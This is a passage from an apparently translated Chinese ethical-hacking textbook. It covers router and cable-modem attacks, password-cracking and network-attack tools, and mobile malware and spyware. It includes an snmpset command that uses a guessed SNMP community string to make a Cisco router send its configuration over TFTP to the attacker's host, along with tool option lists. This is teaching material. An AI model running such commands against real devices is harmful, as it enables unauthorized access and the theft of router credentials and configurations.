在 DoS 攻击中，攻击者通过向网络发送大量恶意数据包来阻止授权的网络流量。一旦 DoS 攻击实施完毕，攻击者就可以恶意修改配置或路由信息。

DoS 攻击可能产生以下影响：

- *破坏：* 这些攻击会损害路由器的运行能力。
- *资源耗尽：* 这些攻击通过同时向路由器发起大量开放连接来使其资源耗尽。
- *带宽消耗：* 这些攻击会占用路由器网络的带宽容量。

## 路由表投毒

*路由表投毒*是指对路由表进行未授权的篡改。如果路由表被恶意修改，路由数据更新数据包也会被修改。某些路由协议需要这些路由数据包来广播其 IP 数据包。这将导致路由表中出现错误的条目，例如虚假的目标地址等。除了可能导致网络中一个或多个系统故障外，路由表投毒还会导致以下缺陷：

- *次优路由：* 这会影响互联网上的实时应用。
- *拥塞：* 这会导致人为拥塞，且无法通过使用传统的拥塞控制方法来解决。
- *网络分区：* 由于路由表中存在错误条目，网络中会人为地产生分区。
- *主机过载：* 易受攻击的路由器可被用作 DoS 攻击的工具。
- *数据访问：* 攻击者可以非法访问被入侵网络中现有的数据。

## 数据包“误处理”攻击

数据包“误处理”攻击会导致路由器错误处理或误对待数据包，从而引发流量拥塞。由于这些攻击局限于网络的某一部分，因此检测起来非常复杂。实施数据包误处理攻击的攻击者可以获取实际的数据包并对其进行误处理。恶意数据包会导致以下问题：

- **服务拒绝：** 这可以通过向受害者地址发送不可抑制数量的数据包来间接造成，从而使受害者的路由器及其网络无法处理常规流量。
- **拥塞：** 当数据包被导向网络中负载严重泛滥的错误路由时，就会发生拥塞。
- **连接吞吐量降低：** 实施数据包误处理攻击的攻击者可以通过阻止 TCP 数据包进一步广播来降低吞吐量。受害者路由器在感知到拥塞时，会降低发送速度，从而导致连接吞吐量下降。

## 突击式攻击与持续攻击

**突击式攻击** 在突击式攻击中，攻击者只需向路由器注入单个或少数几个坏数据包即可利用网络漏洞。这种类型的攻击允许攻击者检测网络是否在线并正常运行。这种“测试”攻击可能造成长久损害且难以检测。

**持续攻击** 相比之下，持续攻击是指攻击者不断向路由器注入坏数据包，并利用坏数据包注入过程中暴露出的漏洞。这些攻击可能造致重大损害——有些性质较轻，有些则致命，因为路由器可能被数据包淹没并因持续注入而停止运行。这类攻击相对更容易检测。

## 电缆调制解调器

### 破解电缆调制解调器

电缆调制解调器是一种允许用户将 PC 连接到本地有线电视线路的设备。控制台端口用于固件启动和更改 MAC 地址等底层操作。控制台端口可用于配置电缆调制解调器，并从根级访问权限发出指令，以及在该设备离线时重新配置该设备。破解电缆调制解调器包括以下步骤：

1. 拆解电缆调制解调器
2. 编程 DOCSIS 配置文件
3. 部署 TFTP 服务器
4. 更改 IP 地址
5. 运行 DHCP 服务器

## 防火墙

### 绕过防火墙

像 `www.bypassfirewalls.net` 这样的网站提供免费的脚本，可以通过取消阻止网站来绕过防火墙。还可以使用木马程序（如 Waldo Beta）来绕过防火墙。

### Waldo Beta

如图 3-10 所示，Waldo Beta 允许黑客远程控制计算机。借助 Waldo Beta，黑客可以在受害者的计算机上执行以下操作：

- 打开 CD 驱动器
- 关闭 CD 驱动器
- 隐藏光标
- 显示光标
- 隐藏桌面
- 显示桌面



**图 3-10** Waldo Beta 允许攻击者远程控制计算机。

- 隐藏任务栏
- 显示任务栏
- 翻转鼠标按键
- 关闭 PC
- 重启 PC
- 执行文件
- 删除文件
- 打开浏览器访问任何网站

## 工具

### 暴力破解工具

#### Hydra

Hydra（图 3-11）是一款并行的登录破解器，支持多种用于攻击的协议。Hydra 可以使用以下协议进行暴力破解：

- FTP
- POP3
- IMAP
- Telnet



**图 3-11** Hydra 是一种暴力破解工具。

- HTTP
- NNTP
- VNC
- ICQ
- SOCKS
- PCNFS

### ADMsnmp

ADMs nmp（图 3-12）是一款审计扫描器，可以暴力破解 SNMP 团体名称（使用词库文件），或生成基于主机名的词库列表。

"send stringtest" 字符串表明用户已获取设备的读/写权限。攻击者在获得更高权限后读取 MIB（管理信息库）（图 3-13）。

在确认设备是运行 Cisco IOS 的路由器后，攻击者可以通过 TFTP 使用以下命令将配置文件发送到其自己的系统：

```
snmpset 10.0.1.252 duckling.1.3.6.1.4.9.2.1.55.192.168.1.15 s "config" enterprises.9.2.1.55.192.168.1.15 = "config"
```

### 路由器识别工具

### SING


SING（图 3-14）代表 "Send ICMP Nasty Garbage"（发送恶意 ICMP 垃圾数据包）。SING 是一个发送定制 ICMP 数据包的命令行工具。利用 ICMP 数据包，还可以包含 ICMP 类型 17 的 netmask 请求。路由器是回应此类 ICMP 数据包的设备。SING 可以执行以下功能：

- 发送分片数据包（Linux 和 BSD）
- 发送大于 65,534 字节的巨型数据包（Linux 和 BSD）
- 发送/读取 IP 伪造数据包
- 发送/读取以太网伪造数据包



图 3-12 ADMsnmp 是一种可以暴力破解密码的审计扫描器。

```
[root@hackyou root]# snmpwalk -v 1 -c duckling 10.0.1.252 | head
SNMPv2-MIB::sysDescr.0 = STRING: Cisco Internetwork Operating System
Software
IOS (tm) 2500 Software (C2500-I), Version 12.0(14), RELEASE SOFTWARE
(fc1)
Copyright (c) 1986-2000 by cisco Systems, Inc.
Compiled Tue 31-Oct-00 23:59 by linda
SNMPv2-MIB::sysObjectID.0 = OID: SNMPv2-SMI::enterprises.9.1.30
SNMPv2-MIB::sysUptime.0 = Timeticks: (103607424) 11 days, 23:47:54.24
SNMPv2-MIB::sysContact.0 = STRING:
SNMPv2-MIB::sysName.0 = STRING: ADMsnmp
SNMPv2-MIB::sysLocation.0 = STRING:
SNMPv2-MIB::sysServices.0 = INTEGER: 6
```

图 3-13 攻击者读取 MIB。

```
## s!ng -tstamp x.x.x.255
S!NGING to x.x.x.255 (x.x.x.255): 20 data bytes
20 bytes from x.x.x.64: seq=0 ttl=255 TOS=0 diff=88364
20 bytes from x.x.x.215: seq=0 ttl=255 TOS=0 diff=0 (DUP!)
20 bytes from x.x.x.1: seq=0 ttl=255 TOS=0 diff=51332009 (DUP!)
20 bytes from x.x.x.2: seq=0 ttl=255 TOS=0 diff=55541589 (DUP!)
20 bytes from x.x.x.239: seq=0 DF! ttl=255 TOS=0 diff=-127012 (DUP!)
```

图 3-14 S!NG 可以伪造数据包。

- 除默认发送的 ECHO_REQUEST 类型外，还发送 ICMP 信息类型，如地址掩码请求、时间戳、信息请求、路由器通告和路由器请求
- 发送 ICMP 错误类型，例如重定向、源站抑制、超时、目标不可达和参数问题
- 使用指纹识别技术发现远程操作系统
- 发送模拟 Cisco、Solaris、Linux、Shiva、UNIX 和 Windows 等操作系统行为的 ICMP 数据包

## 路由器分析工具

### SolarWinds MIB 浏览器

SolarWinds MIB 浏览器（图 3-15）使用广泛的 MIB（管理信息库）数据库，通过 SNMP 查询远程设备的软件和硬件配置。它还允许用户对支持 SNMP 的任何远程设备进行更改。

## 密码破解工具

### John the Ripper

John the Ripper（图 3-16）是一个命令行工具，旨在破解 UNIX 和 NT 密码。它是一种可用于多种版本的 UNIX、MS-DOS、Win32、BeOS 和 OpenVMS 的密码破解器。其主要目的是检测弱化的 UNIX 和 Windows 密码。John the Ripper 是 Owl、Debian GNU/Linux、SUSE、Mandrake Linux 的新版本以及 EnGarde Linux 的一部分。它也包含在 FreeBSD、NetBSD 和 OpenBSD 的 ports/packages 集合中。

它支持在 Windows 和 UNIX 上最常见的几种加密密码哈希类型。默认支持 Kerberos AFS（Andrew 文件系统）和 Windows NT/2000/XP LM 哈希，此外还支持通过贡献补丁实现的更多类型。



图 3-15 SolarWinds MIB 浏览器使用数据库通过 SNMP 进行查询。



图 3-16 John the Ripper 是一种密码破解工具。



图 3-17 Cain and Abel 允许用户使用自定义列表破解密码。

### Cain and Abel

Cain and Abel（图 3-17）是一种用于微软操作系统的密码恢复工具。它允许通过嗅探网络轻松恢复各种类型的密码；使用字典、暴力破解和密码分析攻击破解加密密码；记录 VoIP 通话；解码加扰的密码；揭示密码框；揭示缓存的密码；以及分析路由协议。其主要目的是简化从各种来源恢复密码和凭证的过程。然而，它也为 Microsoft Windows 用户提供了一些非标准的实用工具。Cain and Abel 对 Cisco MD5 哈希执行暴力破解和字典攻击。Cain and Abel 可以破解 enable 密码。攻击者可以添加自定义规则，这些规则允许登录或禁用 ACL，并防止直接登录。

## 渗透测试工具

### Eigrp-tool

Eigrp-tool（图 3-18）旨在测试 EIGRP 路由协议的安全性。它可以生成和嗅探 EIGRP 数据包。

### Zebra

Zebra（图 3-19）管理基于 TCP/IP 的路由协议。它支持 RFC 1771（A Border Gateway Protocol 4）中描述的 BGP-4 协议，以及 RIPv1、RIPv2 和 OSPFv2。

### Yersinia

Yersinia（图 3-20）是一种旨在利用不同网络协议弱点的网络工具。它看似一个坚固的框架，用于分析和测试已部署的网络和系统。它可以用于 HSRP、CDP 和其他第 2 层攻击。

### Cisco Torch

Cisco Torch 是一种可用于利用漏洞的多功能工具。Cisco Torch 可以执行以下功能：

- 多线程扫描
- 应用层指纹识别
- 基于字典的密码攻击
- 针对 telnet、SSH、Web、NTP 和 SNMP 的主机发现

可用选项如下：

- `-O`: `<输出文件>`
- `-A`: 结合所有指纹扫描类型



```
Escape character is '^]'.

Hello, this is zebra (version 0.94).
Copyright 1996-2002 Kunihiro Ishiguro.

User Access Verification

Password:
zebra> en
zebra# conf t
zebra(config)# router bgp
        ! <65600> AS number
zebra(config)# router bgp 100
zebra(config-router)# ne1
zebra(config-router)# neighbor 10.0.0.1 remote-as 100
zebra(config-router)# neighbor 10.0.0.1 route-map test in
zebra(config-router)#
      .zebra# conf u
zebra(config)# route-map test permit 10
zebra(config-route-map)# set as-path prepend 100 100
zebra(config-route-map)# set metric 10
zebra(config route map)#
```

图 3-19 Zebra 管理基于 TCP/IP 的路由协议。


```
prodig:/home/tomac/work/projects/versinia-asf/versinia/src# telnet localhost 12000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.

Welcome to versinia version 0.5.5.1.
Copyright 2004 Slav & Tomac.

login: root
password:

MOTD: Do you have a Lexicon LK-7? Share it!! :)

versinia> en
Password:
versinia# en
attacks
odp Cisco Discovery Protocol (CDP) information
shcp Dynamic Host Configuration Protocol (DHCP) information
dot1q 802.1Q information
dtp Dynamic Trunking Protocol (DTP) information
history Display the session command history
hsrp Hot Standby Router Protocol (HSRP) information
interfaces Interface status
stats Show statistics
stp Spanning Tree Protocol (STP) information
users Display information about terminal lines
version System hardware and software status
vtp Virtual Trunking Protocol (VTP) information
versinia# sh ver
Chaos Internet/A.K. Operating System Software
versinia (N) Software (ISBS) Version 0.5.5.1, RELEASE SOFTWARE
Copyright (c) 2004-2004 by Tomac & Slav, Inc.
```

图 3-20 Yersinia 可用于 HSRP、CDP 和其他第 2 层攻击。

- `-t`: Cisco Telnetd 扫描
- `-s`: Cisco SSHd 扫描
- `-u`: Cisco SNMP 扫描
- `-g`: Cisco 配置或 TFTP 文件下载
- `-n`: NTP 指纹识别扫描
- `-j`: TFTP 指纹识别扫描
- `-l`: `<type>` 日志级别
- `-c`: Critical (默认)
- `-v`: Verbose
- `-d`: Debug
- `-w`: Cisco Web 服务器扫描
- `-z`: Cisco IOS HTTP 授权漏洞扫描
- `-c`: 支持 SSL 的 Cisco Web 服务器扫描
- `-b`: 密码字典攻击（需与 `-s`、`-u`、`-c`、`-w`、`-j` 或 `-t` 配合使用）

## 电缆调制解调器工具

### OneStep: ZUP

OneStep: ZUP（图 3-21）是一种电缆调制解调器破解程序。它将所有解封步骤集成到一个程序中，从而执行解封任务。该应用程序需要 Java 运行时环境。



图 3-21 OneStep:ZUP 是一种电缆调制解调器破解程序，可促进解封过程。

## 本章小结

- 诸如 `telnet` 之类的登录服务可用于连接到适当的端口。
- `SING` 可以从命令行发送定制的 ICMP 数据包。
- 路由器配置文件包含敏感信息。
- 通过执行 `tracer` 命令，攻击者可以找到源计算机和目的计算机之间的所有路由器。
- `Zebra` 管理基于 TCP/IP 的路由协议。它支持 RFC 1771（A Border Gateway Protocol 4）中描述的 BGP-4 协议，以及 RIPv1、RIPv2 和 OSPFv2。
- 路由表投毒是对路由表的未授权篡改。
- 路由器是网络中最容易受到攻击的方面之一。
- 暴力破解常用于破解路由器密码。
- 如果在 Cisco 路由器中输入大型密码字符串，路由器将会冻结。
- Ping 扫描可以检测路由器的防火墙。

## 复习题

1. 定义路由器。
2. 定义电缆调制解调器。
3. 什么是 HTTP 配置任意管理访问漏洞？
4. 列出路由器攻击的类型。
5. 什么是路由表投毒？
6. 写出破解路由器的步骤。
7. SLCheck 如何监控 SMTP（端口 25）和 HTTP（端口 80）？
8. 说出电缆调制解调器破解涉及的步骤。
9. 打靶式攻击（hit-and-run attacks）和持久性攻击之间有什么区别？
10. 什么是数据包错误处理攻击？

## 动手项目


1. 按照以下步骤操作：
   - 导航至学生资源中心的第 3 章。
   - 打开 `Chapter 9-Firewalls.pdf` 并阅读内容。
2. 按照以下步骤操作：
   - 导航至学生资源中心的第 3 章。
   - 打开 `CISCO ROUTERS AS TARGETS.pdf` 并阅读内容。
3. 按照以下步骤操作：
   - 导航至学生资源中心的第 3 章。
   - 打开 `Cisco Router Security Best Practices.pdf` 并阅读内容。

# 第 4 章

## 手机、PDA 及手持设备的破解

### 目标

完成本章学习后，你应能够：

- 描述不同类型的手持设备，包括 BlackBerrys、PDAs 和 iPods
- 识别手机上可用的不同操作系统
- 指出手机中的漏洞
- 识别攻击者破解手持设备的方法
- 描述手持设备的病毒和防病毒保护
- 充分防御手机和 PDA 免受攻击
- 识别并使用各种安全工具
- 提供手机安全建议

### 关键术语

- **Blackjacking**：劫持 BlackBerry 会话以利用可信用户信息获取更大网络访问权限的过程
- **Bot**：在互联网上运行自动化任务的软件应用程序；也称为 Internet robot、Web robot 或 WWW robot
- **Botnet**：存在于一个通道中的 Bot 集合
- **Brick**：指完全无法发挥任何功能的设备；对于移动设备而言，指被锁定、损坏或销毁的设备。该术语也可用作动词；设备可以被故意“变砖”。
- **码分多址 (CDMA)**：一种最初被称为 IS-95 的蜂窝技术；它是与 GSM 竞争的另一种网络技术
- **通用分组无线业务 (GPRS)**：大多数 GSM 网络提供的非语音服务
- **全球移动通信系统 (GSM)**：源自 **Groupe Spécial Mobile**；一种用于传输移动语音和数据服务的公开数字蜂窝技术。它是与 CDMA 竞争的另一种网络技术。
- **国际移动设备识别码 (IMEI)**：用于向 GSM 网络标识移动站的唯一 15 位或 17 位代码
- **会话初始化协议 (SIP)**：一种用于创建、修改和终止会话（如 IP 网络上的 VoIP 或视频）的协议；SIP 通常用于视频会议或流媒体多媒体会话
- **短消息服务 (SMS)**：在 GSM 移动通信系统中标准化的通信服务，允许在移动电话设备之间交换短文本消息
- **SIM 锁**：由手机制造商内置于 GSM 手机中的功能；使用 SIM 锁，网络提供商可以限制对特定国家和网络提供商的访问
- **智能手机**：运行 Symbian、Palm OS 或 Windows Mobile 操作系统可编程移动设备；智能手机可以包含电子邮件和互联网访问、应用程序以及相机软件功能
- **用户识别模块 (SIM) 卡**：GSM 手机使用的卡，用于激活、交换、更换和升级手机，无需运营商介入

### 手机、PDA 及手持设备破解简介

本章专注于手机、PDA 及其他手持设备的破解。它首先介绍了调查人员需要了解的不同类型的手持设备。然后讨论了不同手持设备中存在的漏洞。最后讨论了可用的安全工具以及如何保护这些设备免受攻击。

### 手持设备的类型

最早的 PDA（个人数字助理）大约在 1983 年推出，除了是功能强大的图形计算器之外几乎没什么别的用途。它们可以存储姓名和号码，可能还有日历功能。它们速度慢、价格昂贵且容易损坏。自那以后，PDA 和其他手持设备已经取得了长足的进步。现代手持设备可以打电话、拍照、作为便携式媒体播放器使用、连接互联网等。


本章将手持设备分为三个主要类别：手机、PDA 和便携式外部驱动器。由于融合速度之快，一些较新的设备可能包含额外的功能。一些设备，如 iPhone 和 BlackBerry，属于多个类别。

iPhone 和 BlackBerry 是`智能手机`，即运行 Symbian、Palm OS 或 Windows Mobile 操作系统的可编程移动设备。智能手机可以包含电子邮件和互联网访问、应用程序以及相机软件功能。因此，它们可能面临 PDA 部分描述的相同甚至更多的漏洞。iPod 和 iPod Touch 实际上只是便携式外部驱动器，iPod 部分描述的许多危险也适用于闪存驱动器（也称为拇指驱动器、USB 驱动器或 Memory Stick）或 MP3 播放器。

### 智能手机：BlackBerry

BlackBerry 于 1999 年推出，为智能手机树立了行业标准。它提供了多种应用程序，如电子邮件推送、移动电话、短消息、互联网传真、网页浏览和其他无线信息服务。

### BlackBerry 无线安全

BlackBerry 加密安全 `BES` 机制符合美国军事标准。美国政府允许 BlackBerry 被政府机构使用，包括总统办公室和武装部队。

在 `BES` 和 BlackBerry 之间的传输过程中，`BES` 使用加密方法，如高级加密标准 `AES` 和三重数据加密标准 `Triple DES` 在传输期间加密数据。它不在 `BES` 和手持设备之间或企业防火墙之外的任何地方解密数据。见图 4-1 了解此过程的图解。


私钥是在安全的双向认证环境中创建的。用于远程访问 BlackBerry 设备的密钥存储在用户的安全邮箱中。发送到 BlackBerry 设备的任何数据都可以使用私钥进行加密并发送到另一设备，在那里可以使用该设备上可用的密钥进行解密。

### 智能手机：iPhone

苹果的 iPhone 于 2007 年夏季发布，超越了智能手机的行业标准。它包含触摸屏键盘和具有强大开发者支持、大量“应用”基础的开放 API，最新型号包括内置 GPS 技术。虽然许多其他公司，如 Palm、LG、三星和摩托罗拉，已经拥有或正在开发智能手机型号，但 iPhone 和 BlackBerry 的普及性以及它们在首席执行官和亿万富翁中的受欢迎程度，使它们成为黑客的热门目标。本章将单独讨论这些智能手机的破解技术。

### iPod

iPod 是由 Apple Computer 设计的便携式数字音频/视频播放器。iPod 也可用作数字媒体存储设备，用于存储各种格式（包括 MP3、M4A/AAC、受保护的 AAC、AIFF、WAV、Audible 有声书和 Apple Lossless 音频文件格式）的音频、视频和其他数字数据。所有 iPod 都使用硬盘存储数据，除了使用闪存存储的 iPod nano 和 iPod shuffle。iPod 使用媒体播放器 iTunes 来播放和组织数字音乐和视频文件，以及购买 FairPlay 数字版权管理格式的数字音乐文件。

图 4-2 展示了 iPod 的各种组件。

iPod 的大容量存储和通过 USB 的快速数据传输使其对攻击者可能很有用。虽然 Urban Institute 的一项研究表明 iPod 的兴起与城市中心犯罪之间存在联系，但 iPod 更可能是企业间谍活动和数据窃取的工具。

iPod 的小巧尺寸和易用性使其适合犯罪活动。iPod 可用于任何需要存储数据的地方，且足够普遍，足以通过办公室、机场、城市和国家隐藏窃取敏感数据。

可以使用各种技术破解或定制 iPod。可以配置 iPod 作为外部启动设备，用户还可以编写自定义脚本以按任何期望的方式使用 iPod。罪犯可以滥用 iPod 进行各种恶意活动，如传播病毒或转移非法或敏感文件或数据。


## MP3 播放器

由微软、惠普和创意等硬件制造商生产的 MP3 播放器正变得越来越流行。MP3 和 MP4 格式本身的风险非常小，而 MP3 播放器面临的威胁在于它们可能被黑客入侵并用作数据驱动器。因此，影响 iPod 的某些相同漏洞也影响着其他 MP3 播放器。

## 闪存盘

闪存盘也被称为记忆棒、拇指驱动器或 USB 驱动器。由于闪存内存的特性，它们可以非常小巧却拥有大容量。由于它们是便携式外部驱动器，因此容易受到与 iPod 和 MP3 播放器类似的漏洞和威胁。

## 手持设备中常见的操作系统

### 手机操作系统

高级手机通常运行在以下任何操作系统上：

- Palm OS
- Windows Mobile OS
- Symbian OS
- Linux

### 手机中的操作系统结构

图 4-3 展示了手机中三种操作系统结构。

### Palm (Garnet) OS

Palm OS 自 1996 年以来一直用于手持设备。最初由美国机器人（U.S. Robotics）为个人数字助理（PDA）开发。Palm 公司率先开发了桌面同步技术，例如 HotSync。

### Windows Mobile 操作系统

Windows Mobile 操作系统由微软公司开发，是一种用于移动设备和智能手机的非组件式操作系统。它充当 PDA 和手机的通用平台，提供通用的用户界面。Windows Mobile 应用程序包括 Microsoft Office、Internet Explorer、Windows Media Player 和 Microsoft API 的移动版本。


图 4-3 此图展示了手机中的三种操作系统结构。

### Symbian 操作系统

Symbian 操作系统是一个于 1998 年开发的开源移动操作系统。该操作系统支持具有不同用户界面的广泛设备。它支持 CDMA、GSM 和 GPRS。`CDMA` 是一种最初被称为 IS-95 的蜂窝技术。它是 GSM 的竞争性网络技术。`GSM（全球移动通信系统）` 是一种开放的数字蜂窝技术，用于传输移动语音和数据服务。`GPRS` 是大多数 GSM 网络中可用的非语音服务。

### Linux 操作系统

这是一个开源操作系统，提供互联网访问、VoIP 和 Wi-Fi 服务。

## 手持设备中的漏洞

### 移动威胁的演变

移动恶意软件是一种快速增长且难以检测的威胁。与其他恶意软件相比，移动恶意软件传播得更快。目前大多数组织和个人都依赖移动通信。一次大流行级别的攻击可能会损害数百万移动用户。

智能手机的操作系统包含许多容易受到攻击的开放 API。移动设备具有多种连接方式，恶意软件可以通过这些方式传播。近年来，移动恶意软件以惊人的速度增加。

恶意软件可以通过以下途径传播：

- 移动网络
- 互联网
- 短信 `SMS`
- 蓝牙技术
- 无线
- Symbian 安装文件 `SIS`
- 多媒体信息 `MMS`
- USB 设备
- 红外

### 手机漏洞示例

以下是手机中漏洞的示例：

- Research in Motion Ltd. 的 BlackBerry 7270 SIP（一种用于在 IP 网络上创建、修改和终止会话（如 VoIP 或视频）的协议）堆栈存在格式化字符串漏洞，该漏洞会禁用移动设备的通话功能。黑客可以使用特定的头部标记在 IP 堆栈或工作内存中复制或写入数据。这允许黑客用恶意代码覆盖有效数据。
- 运行 SJPhone SIP 客户端的三星 SCH-i730 手机存在缓冲区溢出漏洞。利用此漏洞，黑客可以禁用手机并减慢操作系统速度。
- 使用 AGEPhone 的 HTC HyTn 容易受到通过无线局域网连接的格式错误的 SIP 消息的攻击；它会断开活跃通话。
- 运行 SJPhone SIP 软电话的 Dell Axim 容易受到拒绝服务攻击，该攻击可以禁用手机并耗尽电池电量。
- D-Link DPH-540 和 DPH-541 Wi-Fi 电话的 SDP 解析模块存在漏洞，该漏洞会禁用手机的通话功能。

### 黑入手持设备

当受密码保护的手持设备被盗或被故意使其失效时，黑客可以使用多种工具解锁并恢复软件，从而从变砖的设备中检索数据。`变砖设备`是指无法以任何形式正常工作的设备。在移动设备中，这指的是被锁定、损坏或破坏的设备。黑客可以恢复对网络连接和原始用户信任的其他设备的访问。

黑客还可以使用间谍软件和其他移动恶意软件攻击手机。他们可以在用户不知情的情况下从移动设备下载地址和其他个人信息。一些黑客不仅提取信息，还可能更改或删除存储在移动设备上的信息。如果密码被禁用，黑客可以访问移动设备上的个人语音邮件。他们还可以使用各种移动间谍软件访问地址簿、阅读信息和电子邮件，并窃听通话。在一些设备上，黑客甚至可以访问银行账户并电子转账。黑客可以使用蓝牙或 GPRS 在移动设备中植入病毒和间谍软件。病毒可以删除所有个人信息，如联系人、信息和电子邮件。

本节将探讨黑客可能在移动设备上使用的各种恶意软件和攻击。

### 移动恶意软件传播


移动恶意软件通过互联网传播。它首先感染 PC；受感染的 PC 然后通过红外和蓝牙感染智能手机。受感染的智能手机可以通过无线局域网继续感染其他智能手机。移动恶意软件可以通过 `MMS` 感染许多手机，然后受感染的设备可以使用通用分组无线电服务（`GPRS`）将恶意软件传播到另一个移动设备。

恶意软件允许黑客访问存储在设备上以及任何连接网络或设备中的关键且通常保密的信息。恶意软件程序可以窃取信息、地址列表、通话和信息日志或其他敏感数据。恶意软件还可以用于从设备发出指令，使黑客能够控制智能手机或移动电话进行通话或发送短信。恶意软件在移动网络上的传播比在桌面系统上更快。它难以检测，因为移动病毒和木马变种仍然过于多样，无法使用基于分类的病毒检测技术进行追踪。

## 间谍软件

移动间谍软件操作短信信息，使他人能够阅读它们。`短信 (SMS)` 是 `GSM` 移动通信系统中标准化的一种通信服务，允许在移动电话设备之间交换短文本消息。移动间谍软件对用户不可见，在启动时加载，并将移动设备上的短信信息转发给黑客。首先，攻击者向目标移动设备发送一条短信。受害者随后打开该信息，并不知情地将间谍软件安装到设备上。间谍软件接收短信信息并将其转发回给黑客，而不会警告用户。

## 僵尸网络

僵尸（`Bots`）是在互联网上运行自动化任务的软件应用程序。在某个通道中存在的一组僵尸计算机构成一个*僵尸网络*。僵尸网络由一组受控系统组成，这些系统被监控以用于特定的命令基础设施。这些僵尸网络可以在机器所有者不介入的情况下入侵大量机器。这些僵尸网络可以发起拒绝服务攻击，或者受控机器可以运行和传播木马和蠕虫。

### DDoS 洪水

僵尸网络所有者需要在感染移动设备上的僵尸网络后向其发送指令。在收到发起 DDoS 洪水的指令后，移动所有者的核心基础设施会被大量看似合法的请求填满。这导致连接的系统遭受拒绝服务。

### 恶意软件：`SymbOS/Htool-SMSSender.A.intd`

- 影响：`Symbian OS`

`SymbOS/Htool-SMSSender.A.intd` 是一个原型间谍软件程序，试图将收到的短信副本返回给间谍软件作者。源代码在一个名为 `HackSMS.rar` 的存档文件中分发。该存档包含一个名为 `XaSMS.SIS` 的 `SIS` 文件。该间谍软件以 `XaSMS` 的名称安装。

`SymbOS/Htool-SMSSender.A.intd` 提供了拦截和转发短信的示例，其方式类似于 `SymbOS/Mobispy.A` 或 `SymbOS/ACallno.A`。这包括复制最后收到的短信文本，将其放入新的短信中，然后将消息转发给间谍软件作者。该间谍软件将最后收到的短信文本复制到草稿文件夹中的新消息中。它从不发送已起草的短信。它还会在重启时自动启动。

`SymbOS/Htool-SMSSender.A.intd` 的源代码不包括向恶意软件作者发送短信信息的函数。它确实包括未实现的函数、未使用的参数和被注释掉的函数。这些未实现的函数对受影响的系统没有危害，但将来可能对其他潜在的短信间谍软件作者有用。

### 恶意软件：`SymbOS/MultiDropper.CG`

- 影响：`Symbian OS`

`SymbOS/MultiDropper.CG` 是一个针对手机 `Symbian` 操作系统的间谍应用程序。它随不同的多释放器手机木马捆绑在一起。它跟踪目标手机的短信，并复制传入和传出移动号码的日志文件。

### 黑莓攻击：`Blackjacking`

`*Blackjacking*` 是一种劫持黑莓连接的方法。攻击者利用黑莓环境穿透安全边界，直接攻击主机网络。

黑莓攻击工具包包含 `BBProxy`、`BBScan` 以及相关的 `MetaSploit` 补丁，用于利用现有黑莓设备与服务器之间的信任关系来劫持会话并获取机密数据。`BBProxy` 是一个安全评估工具，允许攻击者使用黑莓设备作为互联网和内部网络之间的代理。攻击者要么在用户的黑莓上安装 `BBProxy`，要么通过电子邮件附件将其发送到目标设备。当该工具被激活时，它会在攻击者和不安全企业网络的主机之间创建一个隐蔽通道。该通道在黑莓服务器和移动设备之间是加密的，并且无法被安全产品识别。

### iPhone 攻击

- 影响：`iPhone` 和 `iPod`，包括 `iPod Touch`

